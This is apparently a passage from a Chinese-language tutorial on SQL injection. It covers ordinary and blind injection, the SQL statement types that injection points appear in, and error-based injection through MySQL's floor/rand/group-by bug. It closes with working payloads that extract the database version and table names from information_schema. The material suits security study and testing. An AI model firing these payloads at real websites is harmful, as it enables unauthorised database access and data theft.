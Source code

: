 ### 按照注入方式

#### 普通注入和盲注

普通注入就是注入的<u>页面是直接显示数据库中的字段内容的</u>，我们可以通过 SQL 注入一步一步把数据库中我们想要的内容显示在页面中。

盲注则要困难很多，<u>页面不直接显示数据库字段内容</u>，显示的可能只是一个判断结果（是或者否），页面只能告诉你你构造的 SQL 语句对还是错，你要查询的内容存在还是不存在。

其中不回显的原因可能是 SQL 语句的问题导致，因为像insert、delete等查询语句即使执行成功，也不会回显。此外，网站的前端页面显示也会限制。

- select 查询数据

  例：`select * from news where id=$id`

  应用：查询用户

- insert 插入数据

  例：`insert into users(id,username,password) values(30,'x','123')`

  应用：网站的用户注册

  和select操作的数据包相似，但是不能像普通select注入一样操作。

- delete 删除数据

  例：`delete from users where id=30`

  应用：后台管理里面删除用户等操作、删除留言等

- update 更新数据

  例：`update users set password='123' where id=11 and username='admin3'`

  应用：会员或后台中心数据同步或缓存等操作、登录后修改个人信息，如密码等

- order by 排序数据

  一般结合表名或列名进行数据排序操作

  例：select * from news order by $id

  例：select id,name,price from news order by $order

#### 基于报错的SQL盲注（优先）

12种报错注入+万能语句：https://www.jianshu.com/p/bc35f8dd4f7c

floor、extractvalue、updatexml报错原理：https://developer.aliyun.com/article/692723

- **floor向下取整数**

  0x7e为`~`

  rand() 产生[0,1)的随机小数；

  group by 按照指定字段对查询结果进行分组，常结合count()、sum()、avg()、max()、min()等使用。

  利用了MySQL的第8652号bug ：Bug #8652 group by part of rand() returns duplicate key error来进行的盲注，使得MySQL由于函数的特性返回错误信息，进而我们可以显示我们想要的信息，从而达到注入的效果：在 **rand()和group by同时使用** 的时候，可能会产生超出预期的结果，因为会<u>多次对同一列进行查询</u>。

  ```mysql
  //select
  // 爆数据库版本
  1' and (select count(*) from information_schema.tables group by concat(version(),0x5c,floor(rand(0)*2)))#
  
  // 通过修改limit后面数字一个一个爆表
  1' and (select count(*) from information_schema.tables where table_schema=database() group by concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 1,1),0x7e,floor(rand(0)*2)))#
  
  // 爆出所有表
  1' and (select count(*) from information_schema.tables where table_schema=database() group by concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e,floor(rand(0)*2)))#
  ```
